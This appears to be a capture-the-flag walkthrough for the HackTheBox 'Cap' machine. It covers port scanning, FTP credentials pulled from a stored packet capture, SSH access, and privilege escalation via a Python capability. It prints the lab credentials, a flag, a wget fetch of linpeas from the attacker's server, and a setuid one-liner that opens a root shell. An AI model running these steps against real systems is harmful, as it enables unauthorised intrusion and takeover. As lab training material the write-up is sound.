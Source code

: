 # IP: 10.10.10.245
### [Challenge](https://app.hackthebox.com/machines/Cap)

- # ENUM
	- nmap (`nmap -sV -A -p- -T4 10.10.10.245`)
		- ```PORT   STATE SERVICE VERSION
			21/tcp open  ftp     vsftpd 3.0.3
			22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
			| ssh-hostkey: 
			|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)s
			|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
			|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
			80/tcp open  http    Gunicorn
			|_http-server-header: gunicorn
			|_http-title: Security Dashboard
			Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_keranel```
	- dirbuster:
		- /ip
		- /netstat
		- /static/js/.......
		- /data/1


- # EXPLOITATION
	- There's a directory (/data) that stores all the user's scans
	- Sus scan: 0.pcap
		- It contains FTP credentials
			- username: `nathan`
			- password: `Buck3tH4TF0RM3!`
	- Connect via FTP (`ftp -p 10.10.10.245 21`)
	- `get user.txt`
		- `7f9fad818ecfc0bd8105acd7fd18e46b`
	- The same credentials work with SSH! (`ssh nathan@10.10.10.245`)

- # PRIVILEGE ESCALATION
	- Run linpeas.sh (host python server -> `wget linpeas.sh` in victim's machine /tmp) 
		- /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
	- python3.8 has capabilities! Let's see on GTFOBins
		- `python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'`
	- Let's execute this command on the terminal
		- We're root now!

